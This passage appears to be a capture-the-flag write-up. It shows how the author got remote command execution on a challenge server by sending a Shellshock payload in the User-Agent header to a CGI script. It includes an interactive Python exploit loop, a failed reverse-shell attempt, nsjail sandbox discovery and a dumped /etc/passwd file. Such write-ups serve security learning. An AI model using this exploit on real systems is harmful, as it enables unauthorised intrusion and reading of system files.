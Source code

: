 now as i was with my phone and not on my pc i had to do it with curl (very painful)

so i wrote a mini script

```python
import requests as r

while True:
  a = input("sh$ ")
  headers = {"User-Agent":"() {{ :; }}; echo; echo; /bin/busybox {} 2>&1".format(a)}
  out = r.get("https://stt.uctf.ir/cgi-bin/uptime.sh", headers=headers, verify=False)
  print(out.text)
```

now i had rce in the system

i tried to get a reverse shell but apparently the backend wasn't connected to the internet

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
```

so i got the /proc/self/cgroup file 

`0::/../../NSJAIL.15703`

apparently the server was using nsjail

but it wasnt vulnerable to anything

i also got processes and etc passwd

```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
haproxy:x:100:101:haproxy:/var/lib/haproxy:/bin/false
m4d0k4:x:1000:1000:Madoka Kaname:/home/m4d0k4:/bin/ash
```
